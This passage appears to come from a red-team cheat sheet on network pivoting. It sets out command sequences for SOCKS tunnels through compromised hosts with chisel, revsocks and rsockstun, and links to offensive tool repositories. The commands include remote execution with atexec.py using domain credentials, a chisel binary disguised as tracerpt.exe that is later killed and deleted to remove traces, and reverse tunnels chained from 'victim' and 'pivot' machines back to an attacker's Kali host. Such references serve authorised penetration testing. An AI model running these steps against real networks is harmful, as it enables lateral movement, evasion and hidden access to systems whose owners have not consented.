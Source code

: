 Quicky:

```
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'start "" /b C:\Windows\tracerpt.exe server -p 8000 --socks5 --auth snovvcrash:"Passw0rd!"'
$ sudo chisel client -v --auth snovvcrash:'Passw0rd!' 192.168.1.11:8000 127.0.0.1:1080:socks
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'taskkill /IM:tracerpt.exe /F && del C:\Windows\tracerpt.exe'
```


#### Double SOCKS Proxy

![Double SOCKS Proxy Scheme](/.gitbook/assets/003.png)

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5
alice@pivot1:~$ nohup ./chisel client 10.10.13.37:8000 R:socks &
alice@pivot1:~$ nohup ./chisel server -p 8000 --reverse --socks5 &
bob@pivot2:~$ nohup ./chisel client 192.168.1.11:8000 R:socks &
snovvcrash@kali:~$ cp /etc/proxychains4.conf .
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ proxychains4 -f ./proxychains4.conf nmap -Pn -sT 192.168.3.33 -p445
```


#### SharpChisel

- [https://github.com/shantanu561993/SharpChisel](https://github.com/shantanu561993/SharpChisel)
- [https://github.com/latortuga71/SharpChisel-NG](https://github.com/latortuga71/SharpChisel-NG)
- [https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a](https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a)
- [https://github.com/m3rcer/Chisel-Strike](https://github.com/m3rcer/Chisel-Strike)



### revsocks

* [https://github.com/kost/revsocks](https://github.com/kost/revsocks)

```
snovvcrash@kali:~$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
alice@victim:~$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```



### rsockstun

- [https://github.com/llkat/rsockstun](https://github.com/llkat/rsockstun)

```
$ openssl req -new -x509 -keyout cert.key -out cert.crt -days 365 -nodes
$ sudo rsockstun -listen :8000 -socks 127.0.0.1:1080 -cert cert -pass 'Passw0rd!'
```

Quicky:

